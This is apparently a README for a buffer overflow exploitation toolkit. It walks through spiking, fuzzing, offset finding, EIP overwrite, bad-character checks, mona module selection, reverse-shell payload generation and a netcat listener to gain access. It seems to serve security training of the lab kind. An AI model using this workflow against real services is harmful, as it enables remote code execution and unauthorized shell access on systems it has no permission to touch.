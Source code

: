 # BufferOverFlow

## Usage Guide:

### Spiking -> 
	Edit spiking.spk with the command you want to spike
	```
	bash spiking.sh <ip> <port>
	```

### Fuzzing ->
	Inside python fuzzing.py 
	Edit:
	```
	1. ip
	2. port
	3. command
	```
	>python fuzzing.py
	**Keep the program crash output _byte size_**

### Offset -> 
	```
	bash pattern.sh <byte size>
	```
	copy the pattern and paste in **offset.py** and change the **ip** **port** & **command**.
	> python offset.py
	> bash offset_value.sh <byte size> <pattern form Immunity Debugger>
	**Keep the program output _actual size**

### OverWrite EIP ->
	Inside overWriteEIP.py
	Edit:
	```
	1. Actual value
	2. ip
	3. port
	4. command
	```
	> python overWriteEIP.py

### Finding bad char -> 
	Inside badchar.py
	Edit:
	```
	1. Actual value
	2. ip
	3. port
	4. command
	```
	> python badchar.py
	**right click on ESP register vlaue and follow in dump and check for bad characters** 

### Finding right module -> 
	!mona module "<with dll with all false> "

### Generate shell code ->
	> bash rev_shell.sh <your ip> <your port>
	**Keep the output _payload_**

### Gain access -> 
	Inside final.py
	Edit:
	```
	1. Payload
	2. Actual value
	3. ip
	4. port
	5. command
	```
	Now Start netcat :
	> nc -lvnp <your ip> <your port>
	And Finally run:
	>python final.py

